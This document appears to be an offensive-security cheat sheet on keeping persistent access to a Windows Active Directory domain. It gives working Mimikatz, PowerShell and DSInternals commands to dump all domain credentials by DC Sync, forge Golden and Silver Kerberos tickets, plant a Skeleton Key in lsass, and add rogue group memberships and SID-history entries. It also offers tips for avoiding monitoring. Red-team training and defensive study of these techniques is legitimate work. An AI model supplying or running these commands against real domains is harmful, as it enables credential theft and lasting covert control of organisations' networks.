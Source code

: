 ```yaml
---
title: Active Directory persistence
---
```


- [1. DC Sync](#1-dc-sync)
- [2. Golden Ticket](#2-golden-ticket)
- [3. Silver Ticket](#3-silver-ticket)
- [4. Skeleton Key](#4-skeleton-key)
- [5. Certificates](#5-certificates)
- [6. Group Membership](#6-group-membership)
- [7. SID History](#7-sid-history)
- [8. Group Templates](#8-group-templates)
- [9. GPO](#9-gpo)

## 1. DC Sync
The more privileged credentials are, the sonner they will be rotated after breach detection. The goal then is to persist with near-privileged credentials, not with a super-user:

- Local administrator on several machines - usually there is a group or two with local admin rights on almost all machines.
- Service accounts with delegation permissions - with this accounts it's possible to force golden and silver tickets to perform Kerberos delegation attacks.
- Privileged AD services accounts

It is not just the DCs that can initiate DC Synchronization. Accounts such as those belonging to the _Domain Admins_ groups can also do it for legitimate purposes such as creating a new domain controller. If our account has permission to perform DC Synchronization, we can stage a DC Sync attack to harvest credentials from a DC.

```powershell
.\mimikatz.exe

# Dump for single user
> lsadump::dcsync /domain:<DOMAIN> /user:<AD_USERNAME>

# Dump all users to the file
> log <DUMP_FILE.TXT>
> lsadump::dcsync /domain:<DOMAIN> /all
```

## 2. Golden Ticket
_Golden Ticket_ is forged TGT of high privileged account. The authorization step is bypassed. Having a valid TGT of a privileged account, an attacker can request a TGS for almost any service. DC doesn't perform user account validation until the TGT is older than 20 minutes so a revoked account can be used as well. User's password change has no effect on this attack.

In order to forge a golden ticket `krbtgt` account's password hash is required. With this hash an attacker can sign a TGT for any user account. By default, the `krbtgt` account's password never changes, meaning once hacked, unless it is manually rotated, it's possible to generate TGTs forever.

Required information to forge Golden Ticket:

- `krbtgt` account's password hash
- domain name
- domain SID
- user ID

> **NOTE**: `krbtgt` hash is an NT (RC4 + HMAC) hash. It can be extracted from the lsass or a SAM file of a Domain Controller.

```powershell
# Mimikatz - forge Golden Ticket
> kerberos::golden /user:<ACCOUNT> /domain:<DOMAIN_FQDN> /id:500 /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_NT> /endin:600 /ptt

# Check if it works
dir \\dc\C$\
```

Structure of the Mimikatz command:

```plaintext
kerberos::golden        - Mimikatz module
/user:<ACCOUNT>         - User for which the TGT is generated
/domain:<DOMAIN_FQDN>   - Domain FQDN
/sid:<DOMAIN_SID>       - Domain SID
/krbtgt:<KRBTGT_NT>     - krbtgt's NT hash. Other: /aes128, /aes256
/endin:<INT>            - ticket lifetime in minutes (10 years by default)
/ptt                    - pass-the-ticket (inject into memory). Other: /ticket (save to the file)
```

## 3. Silver Ticket
_Silver Ticket_ is forged TGS which gives an access to some interesting service. TGS is encrypted using service account's NT hash so it needs to be extracted first. TGS is valid only for the services running with the same service account.

Usually, a machine account is used as a service account in the most interesting services. That's why the machine account's NT hash is the most desired one.  

**Which service to choose?**. Check out [the list of known SPNs](https://adsecurity.org/?page_id=183). Interesting ones:

- `cifs` - allows file system access.
- `host` - task scheduling ability.

```powershell
# Mimikatz - forge Silver Ticket
> kerberos::golden /user:<ACCOUNT> /domain:<DOMAIN> /sid:<DOMAIN_SID> /target:<DOMAIN> /rc4:<SERVICE_ACCOUNT_NT_HASH> /service:<SERVICE_SPN> /ptt
```

Structure of the Mimikatz command is very similar to the Golden Ticket variant:

```plaintext
kerberos::golden        - Same as for Golden Ticket. No Silver module.
/service:<SERVICE>      - SPN name of the service
/rc4:<HASH>             - Service account hash. Other: /aes128, /aes256
/ptt                    - pass-the-ticket into memory. No option to save the ticket on disk.
```

## 4. Skeleton Key
It's a technique that uses patching of the lsass process memory in a Domain Controller in order to allow access as any user using a single password. It's not persistent across reboots. Domain Admin privileges are required to patch lsass memory!

> **NOTE**: It's not possible to patch the lsass twice.

```powershell
# Mimikatz - change all users passwords to "mimikatz"
> privilege::debug misc::skeleton
```

## 5. Certificates
TBD

## 6. Group Membership
We can just add ourselves directly to privileged AD groups for persistence.  Remember, the most privileged groups are not always the best to use for persistence. They are always monitored. In large organizations groups are usually nested. Groups contain groups and so on. For example, an interesting "IT Support" group might have multiple subgroups with the same privileges. Here's the reduced visibility for monitoring systems. It can be exploited to achive more silent persistence.

```powershell
# Add group member
Add-ADGroupMember -Identity <GROUP> -Members <USER>
```

## 7. SID History
SIDs history of Security Principal allows for one account to be attached to another. It basically have all the privileges of the SIDs included in the SID history. It's especially used during migration, when a new account on a new domain could have the SID history of an old account to retain access of the old domain.

It might be used in order to establish persistence in the domain. Groups' SIDs can be assigned to a user's SID history as well. This technique is a lot harder to detect than just a simple group membership persistence.

```powershell
# Get SID history
Get-ADUser <USER> -Properties name,sidhistory

# Get group's SID
Get-ADGroup <GROUP>

# Modify SID history
Import-Moduls DSInternals
Stop-Service ntds -Force
Add-ADDBSidHistory -SamAccountName <USER> -SidHistory <SID> -DatabasePath 'C:\Windows\NTDS\ntds.dit'
Start-Service ntds
```

## 8. Group Templates
Group templates are objects which privileges are copied to some AD groups constantly (e.g. every hour). `SDProp` process takes the ACL of the `AdminSDHolder` object and applies it to all protected groups every 60 minutes. List of protected groups contains: `Administrators`, `Domain Admins`, `Schema Admins`, `Enterprise Admins` and more. By default, `AdminSDHolder` ACL is very restrictive. By modifing ACL of this object (injecting special ACEs), an attacker can change ACLs of all protected groups in the domain and gain full permissions to them.  

## 9. GPO
GPOs are excellent tool for remote management but they can be targeted to deploy persistence. Some GPO hooks are especially interesting from the attacker's point of view:

- `Restricted Group Membership` - allows to give administrative access to all hosts in the domain.
- `Logon Script Deployment` - allows to execute script (e.g. reverse shell) on every logon.
- and more.

